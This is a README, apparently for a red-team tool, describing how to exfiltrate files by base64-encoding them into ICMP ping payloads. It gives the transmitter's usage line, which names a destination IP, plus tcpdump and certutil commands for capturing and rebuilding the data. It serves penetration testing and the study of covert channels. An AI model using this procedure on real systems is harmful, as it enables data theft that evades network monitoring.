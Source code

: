 # icmp_tunnel_ex_filtrate

icmp_transmitter.exe is an executable used to send files on one system to another using icmp ping packets. The tool first converts the file(an exe, image, document etc) to base64 encoded text. This will then send the ping requests each with 64 characters of data taken from the base64 encoded text file. The tools needs a packet capture softwares on the other side to capture and record all the ping packets as .pcap or .txt files. Use the parser.sh to quickly parse the pcap file and have the text file with base64 encoded data. Once this is done, use certutil to convert back the text file into respective file format.

Usage:

icmp_transmitter.exe "input_file_to_be_sent" "IP_address_to_be_sent"

at the server end:
 
run tcpdump. Use the following command :

sudo tcpdump -i eth0 icmp and icmp[icmptype]=icmp-echo -XX -vvv -w output.txt

Use certutil to decode the base64 data to respective format

certutil -decode "base_64_encoded_textfile" "file.extention"

The files and source code can be downloaded from: https://github.com/NotSoSecure/icmp_tunnel_ex_filtrate/releases
